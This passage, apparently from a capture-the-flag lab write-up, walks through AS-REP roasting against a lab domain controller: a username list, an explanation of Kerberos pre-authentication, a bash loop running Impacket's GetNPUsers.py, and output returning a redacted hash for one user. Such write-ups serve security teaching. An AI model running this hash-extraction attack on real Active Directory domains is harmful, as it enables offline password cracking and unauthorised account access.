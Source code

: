     hugob
    hbear
    steven
    steven.kerb
    stevenk
    skerb

With our list of names we will first go to check if among all users there is one with kerberos pre-authentication disabled. Kerberos pre-authentication is a security feature that protects against password-guessing attacks.
When pre-authentication is not enforced, one could directly send a dummy request for authentication. The Key Distribution Center (KDC) of the Domain Controller will check the authentication service request (AS-REQ), verify the user information and
return an encrypted Ticket Granting Ticket (TGT). The TGT contains material (the timestamp) that is encrypted with the NTLM hash of the corresponding account. A hash can be derived from this, that can be subjected to an offline brute force attack in order to reveal the plaintext password.
Using Impacket's GetNPUser, we can attempt an ASREPRoasting attack in order to extract a hash from user accounts that do not require pre-authentication.

    while read user; do GetNPUsers.py egotistical-bank.local/"$user" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < unames.txt

    /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
    Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
    
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:<redacted>
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

`GetNPUsers.py` returns a hash for user fsmith .
